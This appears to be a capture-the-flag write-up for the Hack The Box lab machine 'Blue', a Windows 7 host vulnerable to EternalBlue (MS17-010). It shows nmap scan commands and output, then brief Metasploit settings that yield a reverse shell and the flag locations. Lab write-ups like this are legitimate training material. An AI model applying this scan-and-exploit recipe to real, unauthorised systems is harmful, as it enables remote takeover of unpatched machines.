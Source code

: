 ```yaml
---
layout: default
title: BLUE
description: by HACK THE BOX
---
```


<h3 align="center">
Blue is a Windows 7 machine that has the infamous Eternal Blue vulnerability
</h3>

# Enumeration

1. Nmap

   ```
   └─$ nmap -A -T4 10.10.10.40
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 16:06 EST
   Nmap scan report for 10.10.10.40
   Host is up (0.037s latency).
   Not shown: 991 closed tcp ports (conn-refused)
   PORT      STATE SERVICE      VERSION
   135/tcp   open  msrpc        Microsoft Windows RPC
   139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
   445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
   49152/tcp open  msrpc        Microsoft Windows RPC
   49153/tcp open  msrpc        Microsoft Windows RPC
   49154/tcp open  msrpc        Microsoft Windows RPC
   49155/tcp open  msrpc        Microsoft Windows RPC
   49156/tcp open  msrpc        Microsoft Windows RPC
   49157/tcp open  msrpc        Microsoft Windows RPC
   Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

   Host script results:
   | smb-security-mode:
   |   account_used: guest
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   | smb2-security-mode:
   |   2.1:
   |_    Message signing enabled but not required
   | smb2-time:
   |   date: 2021-11-27T21:08:26
   |_  start_date: 2021-11-27T21:03:16
   | smb-os-discovery:
   |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
   |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
   |   Computer name: haris-PC
   |   NetBIOS computer name: HARIS-PC\x00
   |   Workgroup: WORKGROUP\x00
   |_  System time: 2021-11-27T21:08:25+00:00
   |_clock-skew: mean: 1m15s, deviation: 1s, median: 1m14s

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 69.53 seconds
   ```

2. Also I tried to scan the machine with NMAP for known vulnerabilities

   ```
   ─$ nmap -T4 10.10.10.40 --script vuln
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 16:08 EST
   Pre-scan script results:
   | broadcast-avahi-dos:
   |   Discovered hosts:
   |     224.0.0.251
   |   After NULL UDP avahi packet DoS (CVE-2011-1002).
   |_  Hosts are all up (not vulnerable).
   Nmap scan report for 10.10.10.40
   Host is up (0.043s latency).
   Not shown: 991 closed tcp ports (conn-refused)
   PORT      STATE SERVICE
   135/tcp   open  msrpc
   139/tcp   open  netbios-ssn
   445/tcp   open  microsoft-ds
   49152/tcp open  unknown
   49153/tcp open  unknown
   49154/tcp open  unknown
   49155/tcp open  unknown
   49156/tcp open  unknown
   49157/tcp open  unknown

   Host script results:
   |_smb-vuln-ms10-054: false
   |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
   | smb-vuln-ms17-010:
   |   VULNERABLE:
   |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
   |     State: VULNERABLE
   |     IDs:  CVE:CVE-2017-0143
   |     Risk factor: HIGH
   |       A critical remote code execution vulnerability exists in Microsoft SMBv1
   |        servers (ms17-010).
   |
   |     Disclosure date: 2017-03-14
   |     References:
   |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
   |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
   |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

   Nmap done: 1 IP address (1 host up) scanned in 135.34 seconds
   ```

3. Found that it might be vulnerable with CVE-2017-0143. Let's read about it in google.

# Foothold

4. So it looks like there is a metasploit exploit for this one. Let's run MSFCONSOLE
5. In metasploit, lets set the following
   - set RHOSTS 10.10.10.40
   - set LHOST <to you tun0 IP>
   - then run the exploit
6. After a few seconds, we got a reverse shell.
7. Root flag is located at C:\Users\Administrator\Desktop\root.txt
8. User flag is located at C:\Users\haris\Desktop\user.txt

# Reference

1. https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-0143/
2. https://www.exploit-db.com/exploits/42315

<br><br>

[back to HOME](./)
